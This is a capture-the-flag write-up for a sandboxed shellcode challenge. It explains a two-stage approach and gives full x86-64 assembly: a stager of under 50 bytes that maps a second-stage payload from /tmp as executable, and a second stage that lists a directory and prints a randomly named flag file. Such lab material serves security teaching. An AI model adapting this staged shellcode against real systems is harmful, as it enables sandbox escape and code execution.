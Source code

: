 **Challenge Overview**

In this challenge, the user is prompted by the program to enter shellcode that
the program will then execute. There are several aspects of the challenge that
slightly increase the complexity. First of all, the system calls that we can
use in our shellcode are limited to a restricted subset, and therefore our shellcode
is executing within a sandbox. Secondly, the size of the shellcode that the program
will accept is limited to 50 bytes. A third aspect of the challenge increases the
effectiveness of the second limitation, which is that the file with the flag has
a new randoms sequence of characters appended to it everytime we run the program.
Thus, our shellcode cannot be as simple as opening a known filename and printing
its contents to standard output; we must open the directory and get the filename
from the directory entry first. This therefore means our shellcode will not fit within
a 50 byte limit.

Below is the shell script that is run everytime the sandbox program is run. As can be
seen, a random sequence of bytes is taken from `/dev/urandom` and trimmed to output
only characters in a given subset, with 32 such characters being appended to the flag
filename:

```
#!/bin/sh

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
PATH_TO_CHALLENGE="$(dirname ${0})"

cd $PATH_TO_CHALLENGE

NEW_RANDOM_ID=$(tr -dc A-Za-z0-9 < /dev/urandom | head -c 32)

chmod 700 flag/
mv passwd/.flag_* "flag/.flag_${NEW_RANDOM_ID}"
chmod 400 flag/.flag_*
chmod 500 flag/

timeout -k 2m 1m ./challenge-sandbox ./vuln
```

The sandbox that will execute our code has limited our system calls to a subset,
which are listed below:

`read, write, exit, brk, mmap, access, open, fstat, close, mprotect,
munmap, arch_prctl, exit_group, getdents`

In order to complete the challenge, we must divide our shellcode into
two phases. The second phase of our shellcode will be kept in a file
that we put into some private directory we create in /tmp. That leaves
the first phase, which becomes as simply as creating a memory mapped
region into which the contents of our known file will be read. We then
change the permissions of this memory mapped region to be executable
and then use a JMP instruction to jump to the start of this region, thus
executing the second phase of our shellcode. Therefore, we have bypassed
the restriction of 50 bytes and our shellcode can be as long as we wish.

All of this uses only the restricted subset of system calls in the sandbox.

**Phase I of our exploit**

  - _Open file containing shellcode for phase two_
  - _Map the contents into memory, with the permission set
    (PROT_READ|PROT_WRITE|PROT_EXEC)_
  - _Pass execution to it_

The total size of this part of the exploit is 49 bytes, thus within the
size limitation of the sandbox.

**Phase II of our exploit**

  - _Open the "flag" directory (pass O_DIRECTORY flag to open())_
  - _Read the directory entries onto the stack using sys_dirents_
  - _Push "flag/" onto the stack and then append the obtained filename to it_
  - _Open the flag file_
  - _Read contents onto stack_
  - _Print contents to stdout_

The size of this part of the exploit is 161 bytes, itself well over the size
limitation. The total size of the exploit is therefore 210 bytes.


**Assembly code for phase I of the exploit**

```
.section .rodata

.equ SYS_MMAP,9
.equ PROT,0x7
.equ FLAGS,0x2

.globl _start

_start:
	mov $0x63732f706d742f,%rdi
	push %rdi
	mov %rsp,%rdi
	push $2
	pop %rsi
	push $2
	pop %rax
	syscall
	mov %rax,%r8
	xor %rdi,%rdi
	movb $131,%sil
	push $0
	pop %r9
	push $PROT
	pop %rdx
	push $FLAGS
	pop %r10
	push $SYS_MMAP
	pop %rax
	syscall
	call *%rax
```
  
**Assembly code for part II of the exploit**

```
.section .rodata

.equ SYS_READ,0
.equ SYS_WRITE,1
.equ SYS_OPEN,2
.equ SYS_EXIT,60
.equ SYS_GETDENTS,78
.equ O_DIRECTORY,0200000
.equ OFLAGS,0x242

.globl _start

_start:
	mov $0x67616c66,%rdi
	push %rdi
	mov %rsp,%rdi
	push $O_DIRECTORY
	pop %rsi
	push $SYS_OPEN
	pop %rax
	syscall
	mov %rax,%rdi
	mov %rsp,%rsi
	mov $255,%dl
	push $SYS_GETDENTS
	pop %rax
	syscall

	add $42,%rsp
	mov %rsp,%rsi
	sub $0x200,%rsp
	push $42
	pop %rcx
	mov $0x2f67616c66,%rdi
	push %rdi
	add $7,%rsp
	mov %rsp,%rdi
.mloop:
	movb (%rsi),%al
	movb %al,(%rdi)
	inc %rsi
	inc %rdi
	dec %rcx
	jne .mloop

	mov $0,%rax
	movb %al,(%rdi)

	mov $1,%rsi
	dec %rsi
	mov $2,%rax
	sub $7,%rsp
	mov %rsp,%rdi
	syscall
	mov %rax,%rdi
	sub $0x100,%rsp
	mov %rsp,%rsi
	push $64
	pop %rdx
	push $SYS_READ
	pop %rax
	syscall

	push $1
	pop %rdi
	push $0x800
	pop %rdx
	mov %rsp,%rsi
	push $SYS_WRITE
	pop %rax
	syscall
```

